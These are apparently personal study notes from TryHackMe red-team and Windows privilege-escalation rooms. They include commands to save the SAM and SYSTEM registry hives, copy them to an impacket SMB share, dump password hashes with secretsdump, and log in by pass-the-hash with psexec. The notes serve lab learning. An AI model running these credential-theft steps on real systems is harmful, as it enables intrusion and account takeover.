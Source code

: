 # XXX

**https://tryhackme.com/room/redteamfundamentals** (done)

* simulate enough [TTPs](https://csrc.nist.gov/glossary/term/Tactics_Techniques_and_Procedures) for the blue team to learn to react
* [redteam.guide](https://redteam.guide/)
* Varonis Cyber Kill Chain 
* Active Directory Attack Cycle 
* MITRE ATT&CK Framework
* Windows CVE: PrintNightmare

**https://tryhackme.com/room/redteamengagements**

* concrete objectives (identify system misconfigurations) and perimeter/scope (ex: no downtime)

N

* PSexec (allow administrators to run commands on remote Windows systems) 

**https://tryhackme.com/room/windowsprivesc20**

* `whoami /priv`
* https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants
* https://github.com/gtworek/Priv2Admin
* `backup the SAM and SYSTEM hashes`
  * `reg save hklm\system C:\XXX\system.hive`
  * `reg save hklm\sam C:\XXX\sam.hive`
* `python3 -m pip install impacket` (not working)
* `sudo git clone https://github.com/fortra/impacket /opt/impacket`
* `python3 -m pip install -r requirements.txt`
* pipx
* `python /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 name /tmp/folderr`
* `net view \\IP`: view shares
* `copy file \\IP\share`
* https://infinitelogins.com/2020/09/04/windows-file-transfer-cheatsheet/
* [impacket](https://github.com/fortra/impacket/tree/master/examples)
* `pip install -r requirements.txt`/`pip install .`
* `python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL`
  * Give hashes
  * Pass the hash: `python3.9 /opt/impacket/examples/psexec.py -hashes usernamehash:sessionhash username@IP`

Sofware

* `wmic product get name,version,vendor` (list installed sofware, but may miss some of them)
* https://github.com/itm4n/PrivescCheck
* https://github.com/bitsadmin/wesng (run on host, not target, wes.py --update, save and pass to it systeminfo output, wes.py output.txt)
* https://jlajara.gitlab.io/Potatoes_Windows_Privesc
* https://github.com/antonioCoco/RogueWinRM